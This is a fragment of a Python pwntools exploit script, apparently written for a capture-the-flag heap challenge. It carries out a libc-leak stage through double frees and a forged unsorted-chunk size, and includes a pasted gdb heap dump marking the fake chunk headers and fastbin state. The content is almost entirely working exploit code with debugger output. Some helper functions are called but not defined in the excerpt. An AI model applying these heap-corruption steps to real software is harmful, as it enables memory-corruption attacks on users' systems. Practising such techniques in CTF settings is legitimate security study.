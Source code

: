 ```py

def show(idx):
    io.sendlineafter(b">> ", b"3")
    io.sendlineafter(b"Choose an index: ", str(idx).encode())

def allochuge(size):
    io.sendlineafter(b">> ", b"4")
    io.sendlineafter(b"How much space do you need for this massive weapon: ", str(size).encode())

# get libc leak

add(0, 56, b"A"*55)
add(1, 56, b"B"*39)
add(2, 40, b"C"*39) # size
add(4, 56, b"D"*(0x10))
add(5, 40, b"E"*39)

add(10, 40, pwn.p64(0) + pwn.p64(0x21)) # barrier

# freexalloc(5, 560, b"", doubleFree=True)

freexalloc(1, 560, b"", doubleFree=True)
freexalloc(0, 560, b"", doubleFree=True)
freexalloc(2, 560, b"", doubleFree=True)

freexalloc(1, 560, b"", doubleFree=True)
add(6, 56, b"\x00"*56  + b"\xb1") # fake unsorted chunk

"""
0x555555608560:	0x0000000000000000	0x0000000000000041 [0]
0x555555608570:	0x00005555556085a0	0x4141414141414141
0x555555608580:	0x4141414141414141	0x4141414141414141
0x555555608590:	0x4141414141414141	0x4141414141414141
0x5555556085a0:	0x0a41414141414141	0x0000000000000041 [1]
0x5555556085b0:	0x0000000000000000	0x0000000000000000
0x5555556085c0:	0x0000000000000000	0x0000000000000000
0x5555556085d0:	0x0000000000000000	0x0000000000000000
0x5555556085e0:	0x0000000000000000	0x00000000000000b1 [2] <- Fake size | PREV_INUSE (1)
0x5555556085f0:	0x0000000000000000	0x4343434343434343	 
0x555555608600:	0x4343434343434343	0x4343434343434343	 
0x555555608610:	0x0a43434343434343	0x0000000000000041 [3]	 
0x555555608620:	0x4444444444444444	0x4444444444444444	 
0x555555608630:	0x000000000000000a	0x0000000000000000
0x555555608640:	0x0000000000000000	0x0000000000000000	 
0x555555608650:	0x0000000000000000	0x0000000000000031 [4]	 
0x555555608660:	0x4545454545454545	0x4545454545454545	 
0x555555608670:	0x4545454545454545	0x4545454545454545	 
0x555555608680:	0x0a45454545454545	0x0000000000000031 [10]	 
0x555555608690:	0x0000000000000000	0x0000000000000021 <- Fake chunk header 
0x5555556086a0:	0x000000000000000a	0x0000000000000000
0x5555556086b0:	0x0000000000000000	0x0000000000020951 <- Top chunk


fastbins
0x30: 0x5555556085e0 ◂— 0x0
0x40: 0x555555608560 —▸ 0x5555556085a0 ◂— 0x0
"""

```
